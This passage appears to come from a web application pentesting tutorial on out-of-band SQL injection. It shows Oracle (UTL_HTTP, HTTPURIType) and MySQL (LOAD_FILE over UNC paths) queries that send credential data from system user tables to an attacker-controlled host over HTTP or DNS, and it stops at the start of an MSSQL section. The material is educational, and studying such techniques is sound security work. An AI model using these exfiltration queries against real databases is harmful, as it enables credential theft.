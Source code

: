The only system that provides this feature natively is Oracle and it has two different techniques: *UTL_HTTP* and *HTTPURIType*.

The first one has two useful functions to perform HTTP requests: *REQUEST* and *REQUEST_PIECES*. Only the REQUEST function can be used in a SQL query:

```sql
SELECT UTL_HTTP.REQUEST ('mysite.site/' || (SELECT test FROM SYS.USER$ WHERE ROWNUM=2)) FROM DUAL;
```
The downside of using UTL_HTTP is that it is identified as a potential security problem in Admin security guides and it is often disabled.

On the other hand HTTPURIType is not marked as risky and information can be exfiltrated via HTTP like:

```sql
SELECT HTTPURITYPE ('mysite.site/' || (SELECT test FROM SYS.USER$ WHERE ROWNUM=2)).getclob() FROM DUAL;
```

The ```getclob()``` method return the Character Large Object retrieved. We can also use other methods like ```getblob()```, ```getxml()```, ```getcontenttype()```.


#### DNS

In this case we leverage the DNS resolution process for retrieving the results of our queries. Instead of controlling a web server, we have to control a DNS server. Even if the Administrator sets an aggressive firewall policy, the victim site will still be able to reply to requests and perform DNS queries.

--> The  [sqlmap](https://github.com/sqlmapproject/sqlmap) tool has an implementation to run a fake DNS server and easily perform the exploitation.

&nbsp;
![dns_exfiltration](/images/webapppentest/dns_exfiltration.png)
&nbsp;

Note that the server must be registered as the authoritative name server for the attacker controlled zone.

To perform this attack we need to have a DBMS that supports features able to trigger the DNS resolution process.

In MySQL we can use the *LOAD_FILE()* function. It reads the file and returns the file content as a string. It is possible to request a UNC path like:
```\\[data].mysite.site```:

```sql
SELECT LOAD_FILE (CONCAT('\\\\', 'SELECT password FROM mysql.user WHERE user=\'root\'', '.mysite.site'));
```

In MSSQL we can use the extended Stored Procedures for provoking a DNS request.
The *MASTER..XP_FILEEXIST* procedure is useful to determine whether a particular file exists on the disk. Stored procedures do not accept sub queries in a given parameter value, so we need to pre-elaborate the form before submitting it:
